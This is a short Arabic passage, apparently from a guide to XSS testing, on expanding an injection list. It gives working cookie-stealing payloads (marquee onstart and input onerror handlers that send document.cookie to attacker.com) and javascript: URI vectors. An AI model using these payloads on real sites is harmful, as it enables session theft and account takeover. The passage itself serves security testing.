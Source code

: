 #### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<marquee onstart="fetch('http://attacker.com/log?c='+document.cookie)">` أو `<object data="javascript:alert('XSS')">`).
  - جرب أحداث أخرى (مثل `onresize`، `onscroll`) أو وسوم أخرى (مثل `<embed>`، `<math>`).
  - اختبر سياقات معقدة (مثل تعبيرات RegExp أو حقن في JSON).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<input type=image src=x onerror=fetch('http://attacker.com/log?c='+document.cookie)>` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---


